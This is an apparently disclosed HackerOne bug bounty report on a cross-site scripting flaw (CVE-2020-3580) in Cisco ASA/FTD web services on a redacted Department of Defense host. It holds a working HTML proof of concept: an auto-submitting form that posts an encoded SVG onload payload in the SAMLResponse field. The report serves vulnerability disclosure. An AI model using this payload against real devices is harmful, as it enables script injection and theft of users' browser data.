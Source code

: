 # XSS due to CVE-2020-3580 [███.mil]

## Report Details
- **Report ID**: 1277383
- **URL**: https://hackerone.com/reports/1277383
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-25T20:31:41.369Z
- **Disclosed**: 2021-08-19T19:04:13.625Z

## Reporter
- **Username**: fdeleite
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Multiple vulnerabilities in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct cross-site scripting (XSS) attacks against a user of the web services interface of an affected device. 

 Steps To Reproduce 

 Go to this  URL 

 ██████████████.mil.html 

 HTML POC:
 
 <html>
  <body>
 <script>history.pushState('', '', '/')</script>
 <form action='https://'███.mil'/+CSCOE+/saml/sp/acs?tgname=a' method='POST'>
 <input type='hidden' name='SAMLResponse' value='&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;document&#46;cookies&#41;&gt;'/>
 </form>
 <script>
 document.forms[0].submit();
</script>
</body>
</html>

## Impact

- An attacker could exploit these vulnerabilities by persuading a user of the interface to click a crafted link.
 - A successful exploit could allow the attacker to execute arbitrary script code in the context of the interface or allow the attacker to access sensitive, browser-based information. 

 Note: These vulnerabilities affect only specific AnyConnect and WebVPN configurations.

 Supporting Material References
 https://www.exploit-db.com/exploits/47988
 https://twitter.com/sagaryadav8742/status/1275170967527006208

## Attachments
No attachments
